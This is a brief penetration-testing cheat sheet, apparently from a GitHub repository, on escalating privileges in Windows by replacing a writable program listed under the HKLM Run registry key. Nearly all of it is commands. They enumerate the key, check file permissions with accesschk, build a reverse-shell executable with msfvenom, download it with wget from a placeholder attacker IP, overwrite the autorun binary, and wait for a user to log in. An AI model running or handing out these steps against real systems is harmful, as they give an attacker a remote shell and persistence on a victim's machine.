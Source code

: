 # Autoruns

Windows can be set to run scripts and applications on system boot and on logon of a user.

### 1) Check which programs are executed under this specific registry key

    reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

### 2) Check for access permissions on the program that is running inside the autorun registry

    .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

### 3) If you can overwrite the binary, then

##### Create Reverse Shell

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f exe -o program.exe

##### Upload to target system

    wget http://<Attacker-IP>/program.exe

##### Move to binary folder

    move .\program.exe "C:\Program Files\Autorun Program\" /Y

##### Wait for user to login
